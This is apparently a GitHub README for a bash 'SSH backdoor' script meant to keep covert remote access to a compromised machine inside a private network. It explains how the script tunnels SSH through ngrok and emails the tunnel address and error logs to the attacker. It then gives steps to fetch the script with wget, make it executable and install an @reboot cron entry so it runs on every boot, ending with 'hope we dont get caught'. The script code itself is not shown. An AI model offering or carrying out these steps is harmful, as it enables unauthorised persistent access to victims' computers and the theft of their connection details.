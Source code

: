 ### SSH BACKDOOR

This is a bash script that gives the attacker `ssh access` to a compromised host in a private network. The script uses a set of linux tools to 
set up an SSH port and uses ngrok for tunneling and the address --that is always randomized is sent to the attackers server, in this 
case the address is sent to our email address.There is a lot of footprint left behind.Please do not use this script for illegal purposes :tada:
 
##### __The following are some of the conditions that should be met for this script to work.__

- [x] The attacker should have physical access to the compromised machine and they should be root or they should have sudo priviledges.
- [x] The script uses `./ngrok` therefore familiarity with [ngrok](https://ngrok.com) is encouraged.
- [x] The compromised machine or host should be connected to an internet connection.
- [x] set up `ssmtp` to send email to our email address -- using gmail in this case :)


##### __The following is a scenarion or use case were the script can be used__

> *Imagine you as the attacker have physical access to a personal computer (of an employee of a target company) that was weakly configured giving us root. This computer is in 
> the home network therefore that means that it does not face the public internet. You want to constanly get access to this machine, right? Running the script will 
> return an ssh-address that will enable you to connect remotely. We can make this fun by running the script as a cron-job on boot therefore getting 
> connections wherenever the computer is booted. Amazing or rather dangerous right :)*

**_NB_**: The script uses the `/var/tmp/` directory for its operations and logs errors that are sent back to the attacker.

- The `/etc/ssmtp/ssmtp/.conf` file should be configured since this is where ssmtp checks when sending your email. This is where the sender email 
address and the mail server is with its port is listed.

#### US4GE

1. To download the file you can use `wget` or `curl`.

```
wget -o https://raw.githubusercontent.com/mutur4/Hacking-Scripts/main/post-exploitation/ssh-backdoor/backdoor.sh
chmod +x backdoor.sh
sudo crontab -e
```
2. Add the following line below the crontab file opened for editing 

`@reboot /usr/bin/sleep 90; /full/path/backdoor.sh`

3. Lets just sit and wait hope we dont get caught :shipit:
